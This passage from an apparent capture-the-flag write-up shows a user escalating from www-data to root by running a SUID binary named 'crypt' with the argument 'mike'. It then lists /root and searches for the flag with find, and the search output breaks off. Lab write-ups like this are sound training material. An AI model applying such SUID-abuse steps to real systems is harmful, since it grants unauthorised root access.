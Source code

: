 And we found the suid version of this binary lets try using it.

```bash
www-data@host1:/usr/share/man/zh_TW$ ./crypt root
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

Unable to decompress.
```

```bash
www-data@host1:/usr/share/man/zh_TW$ ./crypt mike
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

root@host1:/usr/share/man/zh_TW#
```

And we got root by little luck.

Lets get the flag

```bash
root@host1:/root# ls -la
total 32
drwx------  6 root root 4096 Jul 19  2021 .
drwxr-xr-x 22 root root 4096 Jul 15  2021 ..
lrwxrwxrwx  1 root root    9 Jul 19  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-x---  3 root root 4096 Jul 16  2021 .config
drwx------  3 root root 4096 Jul 14  2021 .gnupg
drwxr-xr-x  3 root root 4096 Jul 14  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 19  2021 .ssh
```

What where is my flag.

Lets try finding it with `find`

```bash
root@host1:/root# find / -type f -name *flag*
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/waitflags.ph
find: '/proc/sys/fs/binfmt_misc': Permission denied
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
find: '/proc/tty/driver': Permission denied
/proc/kpageflags
find: '/dev/.lxd-mounts': Permission denied
find: '/sys/kernel/tracing': Permission denied
find: '/sys/kernel/debug': Permission denied
find: '/sys/kernel/config': Permission denied
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
```